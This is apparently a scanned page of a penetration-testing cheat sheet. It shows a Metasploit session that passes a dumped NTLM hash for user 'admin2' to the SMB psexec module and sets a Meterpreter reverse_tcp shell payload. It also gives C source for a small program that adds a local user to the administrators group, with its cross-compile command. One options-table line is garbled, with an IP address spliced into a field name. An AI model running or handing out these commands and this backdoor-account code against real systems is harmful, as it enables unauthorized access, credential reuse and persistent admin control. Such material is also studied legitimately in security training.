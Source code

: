 ```bash
# admin2:1000:aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7:::

msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target address range or CIDR identifier
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCR10.11.1.111TION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(windows/smb/psexec) > set rhosts 10.10.0.100
rhosts => 10.10.0.100

msf5 exploit(windows/smb/psexec) > set smbuser admin2

smbuser => admin2

msf5 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

smbpass => aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

msf5 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

payload => windows/x64/meterpreter/reverse_tcp
```
### Scripts
		
#### Useradd
```c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add");
  return 0;
}

# Compile
i686-w64-mingw32-gcc -o useradd.exe useradd.c
```
#### Powershell Run As
```cmd
```